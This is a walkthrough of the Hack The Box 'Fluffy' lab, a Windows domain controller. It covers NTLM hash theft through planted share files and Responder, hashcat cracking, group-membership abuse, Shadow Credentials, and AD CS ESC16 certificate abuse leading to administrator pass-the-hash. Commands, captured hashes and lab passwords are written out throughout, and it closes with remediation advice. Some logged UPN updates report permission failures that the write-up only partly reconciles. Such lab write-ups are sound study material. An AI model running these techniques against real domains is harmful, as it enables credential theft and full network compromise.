

# Fluffy — HackTheBox Write-up

| | |
|---|---|
| **Machine** | Fluffy |
| **Platform** | Hack The Box |
| **OS** | Windows Server 2019 (Build 17763) — Domain Controller |
| **Difficulty** | Easy |
| **Domain** | `fluffy.htb` |
| **IP** | `10.129.232.88` |
| **Provided credentials** | `j.fleischman:J0elTHEM4n1990!` |

---

## Attack path summary (TL;DR)

1. **Recon** — Nmap reveals a classic AD domain controller (Kerberos, LDAP, SMB, WinRM, AD CS).
2. **Initial access** — The `j.fleischman` creds grant **READ/WRITE** on the SMB `IT` share. An `Upgrade_Notice.pdf` on the share points to **CVE-2025-24071** (NTLM hash leak).
3. **NTLM hash theft** — Drop a malicious file (`.scf` / NTLM theft) on the share → **Responder** captures `p.agila`'s NTLMv2 hash → crack with hashcat → `p.agila:prometheusx-303`.
4. **AD privilege escalation** — `p.agila` is a member of *Service Account Managers* (**GenericAll** over the *Service Accounts* group) → self-add to the group → **GenericWrite** over `ldap_svc`, `winrm_svc`, `ca_svc`.
5. **Shadow Credentials** — Via Certipy, recover the **NT hash** of `winrm_svc` → Evil-WinRM → **user.txt**.
6. **AD CS / ESC16** — The same vector yields `ca_svc`'s NT hash → the CA has the security extension disabled (**ESC16**) → UPN manipulation → certificate issued as `administrator` → **root.txt**.

---

## 1. Reconnaissance

### Nmap

```
Host is up (0.047s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-29 14:18:28Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
|_ssl-date: 2026-09-29T14:19:58+00:00; +6h59m59s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Global Catalog)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Global Catalog SSL)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
49759/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|_  date: 2026-09-29T14:19:19
```
*(The identical `ssl-cert` blocks for ports 636/3268/3269 were trimmed — same `fluffy-DC01-CA` certificate.)*

**Reading the results:**
- Ports 53/88/389/636/3268 → **Active Directory domain controller** (`fluffy.htb`, DC `DC01`).
- The LDAP certificate is issued by `fluffy-DC01-CA` → an **AD CS (certificate authority)** is present → keep the **ESCx** attacks in mind from the start.
- Port **5985 (WinRM)** open → useful once we get valid creds.
- ~7h `clock-skew` → we'll need to **sync the clock** before any Kerberos operation.

> 💡 Add the DNS entry for later:
> ```bash
> echo "10.129.232.88 dc01.fluffy.htb fluffy.htb DC01" | sudo tee -a /etc/hosts
> ```

---

## 2. Initial access — SMB

### Share enumeration

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ nxc smb 10.129.232.88 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
SMB    10.129.232.88   445    DC01    [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None)
SMB    10.129.232.88   445    DC01    [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB    10.129.232.88   445    DC01    [*] Enumerated shares
SMB    10.129.232.88   445    DC01    Share           Permissions     Remark
SMB    10.129.232.88   445    DC01    -----           -----------     ------
SMB    10.129.232.88   445    DC01    ADMIN$                          Remote Admin
SMB    10.129.232.88   445    DC01    C$                              Default share
SMB    10.129.232.88   445    DC01    IPC$            READ            Remote IPC
SMB    10.129.232.88   445    DC01    IT              READ,WRITE
SMB    10.129.232.88   445    DC01    NETLOGON        READ            Logon server share
SMB    10.129.232.88   445    DC01    SYSVOL          READ            Logon server share
```

The **`IT`** share is **writable** → NTLM hash theft vector.

### IT share contents

```
smb: \> ls
  .                                   D        0  Tue Sep 29 17:25:53 2026
  ..                                  D        0  Tue Sep 29 17:25:53 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 17:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 17:04:05 2025
  imporant.scf                        A       91  Tue Sep 29 16:43:24 2026
  KeePass-2.58                        D        0  Fri Apr 18 17:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 17:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 16:31:07 2025
```

### The hint — `Upgrade_Notice.pdf`

The PDF sitting on the share is a patch notice listing recent CVEs:


| CVE ID | Severity |
|---|---|
| CVE-2025-24996 | Critical |
| CVE-2025-24071 | Critical |
| CVE-2025-46785 | High |
| CVE-2025-29968 | High |
| CVE-2025-21193 | Medium |
| CVE-2025-3445 | Low |

**The key hint is `CVE-2025-24071`** (Windows File Explorer Spoofing / NTLM hash leak via `.library-ms`/`.url` files inside a folder). Combined with the writable `IT` share and the `imporant.scf` already present (so a user browses the folder regularly), it clearly points to the foothold: **drop a booby-trapped file to capture an NTLM authentication**.

---

## 3. NTLM hash theft

### Dropping the trap files

Generate the files with [`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft) — merely displaying them in a Windows Explorer window forces an SMB authentication to our machine — then upload them to the share:

```
smb: \> prompt off
smb: \> recurse on
smb: \> mput *
putting file IT_share-(stylesheet).xml as \IT_share-(stylesheet).xml
putting file IT_share-(icon).url as \IT_share-(icon).url
putting file IT_share-(fulldocx).xml as \IT_share-(fulldocx).xml
...
```

### Capture with Responder

```
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:c5a3252a094fdb8d:C95E6757E4AB290F9204D8C0A18DD731:0101000000000000...
```

→ `p.agila`'s **NTLMv2** hash recovered.

### Cracking with Hashcat

```bash
hashcat -m 5600 p-agila.hash /usr/share/wordlists/rockyou.txt
```

```
P.AGILA::FLUFFY:c5a3252a094fdb8d:c95e6757e4ab290f9204d8c0a18dd731:0101000000000000...:prometheusx-303

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Time.Started.....: Tue Sep 29 10:34:03 2026 (2 secs)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

**Credentials obtained:**

```
p.agila:prometheusx-303
```

---

## 4. Active Directory privilege escalation

### BloodHound enumeration

**Identified path:**

`p.agila` → *(MemberOf)* → **Service Account Managers** → *(GenericAll)* → **Service Accounts**



And the **Service Accounts** group holds **GenericWrite** over the three service accounts:


**Turning it into an attack:** `p.agila` controls (GenericAll) the *Service Accounts* group. So it can **add itself** to it and inherit **GenericWrite** over `ldap_svc`, `winrm_svc` and `ca_svc`.

### Self-adding to the Service Accounts group

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ bloodyAD -u p.agila -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember "Service Accounts" p.agila
[+] p.agila added to Service Accounts
```

### Verifying write rights

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ bloodyAD -u p.agila -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=fluffy,DC=htb
permission: WRITE

distinguishedName: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
permission: WRITE

distinguishedName: CN=ldap service,CN=Users,DC=fluffy,DC=htb
permission: WRITE

distinguishedName: CN=Prometheus Agila,CN=Users,DC=fluffy,DC=htb
permission: WRITE

distinguishedName: CN=winrm service,CN=Users,DC=fluffy,DC=htb
permission: WRITE

distinguishedName: CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

We do get **WRITE** over `certificate authority service` (ca_svc), `ldap service` (ldap_svc) and `winrm service` (winrm_svc).

---

## 5. Clock synchronization (Kerberos prerequisite)

Kerberos operations fail if the clock skew with the DC exceeds ~5 min. Align the local time with the DC's:

```
└─$ sudo systemctl stop systemd-timesyncd
└─$ sudo timedatectl set-ntp false
└─$ sudo ntpdate -u 10.129.232.88
2026-09-29 18:37:30.797092 (+0200) +25199.839059 +/- 0.027698 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25199.839059
```

---

## 6. Targeted Kerberoasting

GenericWrite also lets us temporarily set an SPN on the service accounts and kerberoast them. `targetedKerberoast.py` automates it:

```
┌──(annadif㉿kali)-[~/…/Fluffy/targetedKerberoast]
└─$ ./targetedKerberoast.py --dc-ip 10.129.232.88 -d fluffy.htb -u p.agila -p prometheusx-303
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$7716ad71c6d602005c0cdcc1aac761de$6b5a62b3ff994f30...
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$c1e8b8c12bf800a7d96837a6efee37e4$254d95118f82af...
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$572a0fb72c958434d343d5e911a518bd$3ab1e179a0b8...
```

> These service accounts' passwords aren't in rockyou. So we go through **Shadow Credentials** (next section) to recover their NT hashes directly.

---

## 7. Recovering NT hashes — Shadow Credentials

With **GenericWrite** over an account, we can write to the `msDS-KeyCredentialLink` attribute (**Shadow Credentials**), then authenticate via **PKINIT** (possible here thanks to AD CS) to recover the account's **NT hash**. Certipy automates it all: add the key credential → auth → extract the hash → restore.

### winrm_svc NT hash

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Adding Key Credential with device ID '5e3fcb0c...' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Got TGT
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

### ca_svc NT hash (used later for ESC16)

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Adding Key Credential with device ID '9398e89d...' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Got TGT
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

---

## 8. User flag

`winrm_svc`'s NT hash + the open WinRM port → **Pass-the-Hash** with Evil-WinRM:

```bash
evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```

```
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
cffad020a9c06-------------------SIP
```

✅ **user.txt** recovered.

---

## 9. To administrator — AD CS ESC16

Since we control `ca_svc`, we check whether there's a vulnerable certificate authority.

### CA detection

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ nxc ldap 10.129.232.88 -u ca_svc -H ca0f4f9e9eb8a092addf53bb03fc98c8 -M adcs
LDAP    10.129.232.88   389    DC01    [+] fluffy.htb\ca_svc:ca0f4f9e9eb8a092addf53bb03fc98c8
ADCS    10.129.232.88   389    DC01    [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS    10.129.232.88   389    DC01    Found PKI Enrollment Server: DC01.fluffy.htb
ADCS    10.129.232.88   389    DC01    Found CN: fluffy-DC01-CA
```

### Vulnerability scan — ESC16

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ certipy-ad find -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -vulnerable -enabled -stdout
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
                                          FLUFFY.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

### Understanding ESC16

**ESC16 = the security extension `szOID_NTDS_CA_SECURITY_EXT` (OID `1.3.6.1.4.1.311.25.2`) is disabled at the whole-CA level** (`Disabled Extensions : 1.3.6.1.4.1.311.25.2`).

- Normally this extension embeds the requester's **`objectSid`** in the certificate. That's what enables the **strong certificate mapping** enforced since the May 2022 patches (KB5014754).
- When it's **globally disabled** on the CA, **no issued certificate carries a SID**. The DC is then forced to fall back to **implicit UPN-based mapping**.
- It's essentially the *CA-wide* version of ESC9 (which acts per template).

**Consequence:** an attacker who can **change the UPN of an account they control** (`ca_svc`) can set it to a privileged user's (`administrator`), request a client-authentication certificate, then use it to **authenticate as administrator** — the DC trusting the UPN in the absence of a SID.

### Exploitation

**Step 1 — Change `ca_svc`'s UPN to `administrator`.**

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ certipy-ad account update -u p.agila -p prometheusx-303 -dc-ip 10.129.232.88 -user ca_svc -upn 'administrator'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[-] User 'P.AGILA' doesn't have permission to update these attributes on 'ca_svc'
```

> ⚠️ Note: the GenericWrite inherited via *Service Accounts* only takes effect with a **fresh Kerberos ticket**. If `account update` returns this permission message, re-authenticate (new TGT) after joining the group before retrying the UPN change.

**Step 2 — Request a certificate as `ca_svc` (whose UPN is now `administrator`) via a client-auth template.**

```
┌──(annadif㉿kali)-[~/…/Fluffy/ADCS]
└─$ certipy-ad req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template 'User'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Wrote certificate and private key to 'administrator.pfx'
```

The certificate does carry **`UPN 'administrator'`** and **no SID** (extension disabled) → implicit mapping.

**Step 3 — Restore `ca_svc`'s original UPN** (otherwise its normal authentication breaks):

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ certipy-ad account update -u p.agila -p prometheusx-303 -dc-ip 10.129.232.88 -user ca_svc -upn 'ca_svc@fluffy.htb'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[-] User 'P.AGILA' doesn't have permission to update these attributes on 'ca_svc'
```

**Step 4 — Authenticate with the certificate → `administrator`'s NT hash.**

```
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.88 -domain fluffy.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

---

## 10. Root flag

Final Pass-the-Hash as `administrator`:

```
┌──(annadif㉿kali)-[~/Documents/HackTheBox/TrackCPTS/Fluffy]
└─$ evil-winrm -i 10.129.232.88 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e

Evil-WinRM shell v3.9

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
19fc128fc2f7----------------SIP
```

✅ **root.txt** recovered — box **rooted**.

---

## Path recap

```text
j.fleischman (provided SMB creds)
   └─ Writable IT share + CVE-2025-24071 hint (Upgrade_Notice.pdf)
        └─ NTLM theft (.scf) + Responder
             └─ p.agila NTLMv2 hash → hashcat → prometheusx-303
                  └─ GenericAll over "Service Accounts" (via Service Account Managers)
                       └─ Self-add → GenericWrite over ldap_svc / winrm_svc / ca_svc
                            ├─ Shadow Creds winrm_svc → NT hash → Evil-WinRM → USER
                            └─ Shadow Creds ca_svc → NT hash
                                 └─ AD CS ESC16 (Security Extension disabled)
                                      └─ ca_svc UPN = administrator → cert → auth
                                           └─ administrator NT hash → Evil-WinRM → ROOT
```

## Remediation

- **IT share**: remove unnecessary write rights and monitor for booby-trapped `.scf`/`.url`/`.lnk` file drops; block outbound SMB authentication. Patch **CVE-2025-24071**.
- **Weak passwords**: `prometheusx-303` is in rockyou → enforce a strong password policy + monitor Responder/LLMNR captures.
- **AD rights delegation**: the GenericAll of *Service Account Managers* over *Service Accounts* creates a direct escalation path → apply least privilege, avoid broad GenericWrite/GenericAll over service accounts.
- **Shadow Credentials**: restrict writes to `msDS-KeyCredentialLink`, enable auditing on it.
- **AD CS / ESC16**: **re-enable the security extension** `szOID_NTDS_CA_SECURITY_EXT` (remove the OID from the `DisableExtensionList`), enforce *strong certificate mapping* (KB5014754), and restrict enrollment rights.
